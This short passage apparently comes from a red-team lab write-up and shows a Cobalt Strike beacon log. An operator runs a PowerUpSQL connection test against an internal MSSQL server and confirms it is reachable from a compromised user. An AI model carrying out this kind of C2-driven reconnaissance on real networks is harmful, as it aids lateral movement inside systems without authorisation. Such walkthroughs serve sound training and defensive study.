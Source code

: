 shows that the `MSSQL` server is available from the mhindle user
```powershell
[02/17 01:28:54] beacon> powerpick Get-SQLConnectionTest -Instance "db.kato.org,1433" | fl
[02/17 01:28:54] [*] Tasked beacon to run: Get-SQLConnectionTest -Instance "db.kato.org,1433" | fl (unmanaged)
[02/17 01:29:04] [+] host called home, sent: 138058 bytes
[02/17 01:29:07] [+] received output:


ComputerName : db.kato.org
Instance     : db.kato.org,1433
Status       : Accessible
```